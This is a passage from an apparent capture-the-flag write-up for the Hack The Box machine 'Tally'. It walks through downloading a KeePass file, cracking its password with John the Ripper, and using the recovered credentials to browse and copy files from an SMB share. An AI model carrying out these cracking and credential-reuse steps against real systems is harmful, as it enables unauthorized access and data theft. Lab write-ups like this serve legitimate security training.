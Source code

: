 Download the database to our attack machine.

```text
ftp> get tim.kdbx
```

The KeePass database is password protected. In order to crack the password using John the Ripper \(JtR\), we’ll have to extract a JtR compatible hash of the password. This can be done as follows.

```text
keepass2john tim.kdbx > hash.txt
```

Then run JtR on the hash.

```text
john --format=KeePass --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

We get a hit back informing us that the password is “_simplementeyo_”.

Now we have all the information we need to open the KeePass database. To do that from the command line, we’ll use the _kpcli_ program.

```text
root@kali:~/Desktop/htb/tally# kpcli --kdb tim.kdbx
```

Going through the entries, we find two credentials. One of the credentials _Finance/Acc0unting_ labelled _Tally ACCT share_ will probably give us access to SMB, so we’ll start there.

### Port 139 SMB <a id="8cb7"></a>

Let’s log into the _ACCT_ share using the credentials we found.

```text
root@kali:~/Desktop/htb/tally/smb# smbclient //10.10.10.59/ACCT -U FinanceEnter WORKGROUP\Finance's password: 
Try "help" to get a list of possible commands.
smb: \> dir
  .                            D        0  Mon Sep 18 01:58:18 2017
  ..                           D        0  Mon Sep 18 01:58:18 2017
  Customers                    D        0  Sun Sep 17 16:28:40 2017
  Fees                         D        0  Mon Aug 28 17:20:52 2017
  Invoices                     D        0  Mon Aug 28 17:18:19 2017
  Jess                         D        0  Sun Sep 17 16:41:29 2017
  Payroll                      D        0  Mon Aug 28 17:13:32 2017
  Reports                      D        0  Fri Sep  1 16:50:11 2017
  Tax                          D        0  Sun Sep 17 16:45:47 2017
  Transactions                 D        0  Wed Sep 13 15:57:44 2017
  zz_Archived                  D        0  Fri Sep 15 16:29:35 2017
  zz_Migration                 D        0  Sun Sep 17 16:49:13 2017
8387839 blocks of size 4096. 709452 blocks available
```

After enumerating all the directories, we find two interesting entries. The first is in the _zz\_Archived\SQL_ directory.

```text
smb: \> cd \zz_Archived\SQLsmb: \zz_Archived\SQL\> dir
  .                           D        0  Fri Sep 15 16:29:36 2017
  ..                          D        0  Fri Sep 15 16:29:36 2017
  conn-info.txt               A       77  Sun Sep 17 16:26:56 2017
8387839 blocks of size 4096. 709178 blocks availablesmb: \zz_Archived\SQL\> get conn-info.txt
getting file \zz_Archived\SQL\conn-info.txt of size 77 as conn-info.txt (0.1 KiloBytes/sec) (average 0.1 KiloBytes/sec)
```
